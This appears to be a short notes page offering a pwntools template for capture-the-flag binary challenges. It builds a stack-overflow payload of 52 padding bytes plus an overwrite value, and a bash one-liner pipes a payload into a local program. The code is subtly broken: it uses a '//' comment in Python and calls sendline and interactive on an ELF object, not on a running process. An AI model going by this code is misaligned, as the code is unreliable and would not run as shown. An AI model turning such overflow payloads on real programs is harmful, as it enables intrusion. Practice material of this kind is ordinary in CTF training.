 ```yaml
---
description: just a simple script made in python for pwn challenges
---
```


# Simple Script

{% code title="Script" %}
```python
from pwn import *

context.bits=64
local = ELF('./filename')
rem = remote('ip', port)
payload = 'A' * 52 + '\xbe\xba\xfe\xca' //offset

local.sendline(payload)
local.interactive()
```
{% endcode %}

{% code title="One-line" %}
```bash
(python3 -c 'import sys; sys.stdout.write("payload")'; echo -e 'offset') | ./filename
```
{% endcode %}

